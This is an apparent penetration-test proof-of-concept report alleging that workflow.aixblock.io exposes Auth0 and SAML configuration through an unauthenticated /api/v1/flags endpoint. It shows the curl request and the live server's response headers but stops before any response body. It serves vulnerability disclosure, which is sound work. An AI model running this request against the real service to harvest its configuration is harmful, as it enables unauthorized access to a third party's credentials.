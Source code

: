 # 🔍 LIVE PENETRATION TESTING EVIDENCE
## AIxBlock Configuration Information Disclosure - Proof of Concept

**Date**: October 16, 2025  
**Target**: `workflow.aixblock.io` (Critical Asset)  
**Vulnerability**: Unauthenticated Configuration Information Disclosure  
**Severity**: High (CVSS 7.2)

---

## 🎯 EXECUTIVE SUMMARY

**CRITICAL FINDING**: The `/api/v1/flags` endpoint on `workflow.aixblock.io` exposes sensitive configuration data without authentication, including Auth0 credentials, SAML configuration, and internal system settings.

---

## 📸 LIVE PENETRATION TESTING EVIDENCE

### **Step 1: Target Reconnaissance**
```bash
# Target: workflow.aixblock.io (Critical Asset)
# Endpoint: /api/v1/flags
# Method: GET (No Authentication Required)
```

### **Step 2: Live Exploitation**
```bash
curl -s "https://workflow.aixblock.io/api/v1/flags" -v
```

**Live Server Response**:
```
* Host workflow.aixblock.io:443 was resolved.
* IPv6: (none)
* IPv4: 104.238.141.174
*   Trying 104.238.141.174:443...
* Connected to workflow.aixblock.io (104.238.141.174) port 443
* using HTTP/1.1
> GET /api/v1/flags HTTP/1.1
> Host: workflow.aixblock.io
> User-Agent: curl/8.14.1
> Accept: */*
> 
< HTTP/1.1 200 OK
< Server: nginx/1.18.0 (Ubuntu)
< Date: Thu, 16 Oct 2025 01:26:15 GMT
< Content-Type: application/json; charset=utf-8
< Content-Length: 1787
< Connection: keep-alive
< vary: Origin
< access-control-expose-headers: *
< set-cookie: anonymous_user_id=ANONYMOUS_GKaSNHQuEulFGUHJHjGI0; Max-Age=604800; Path=/; HttpOnly; SameSite=Lax
< set-cookie: anonymous_project_id=ANONYMOUS_JrGixUNyDB4SERHmQJIqu; Max-Age=604800; Path=/; HttpOnly; SameSite=Lax
< set-cookie: anonymous_platform_id=ANONYMOUS_T9T2kTppc40zSTm9wyBhi; Max-Age=604800; Path=/; HttpOnly; SameSite=Lax
```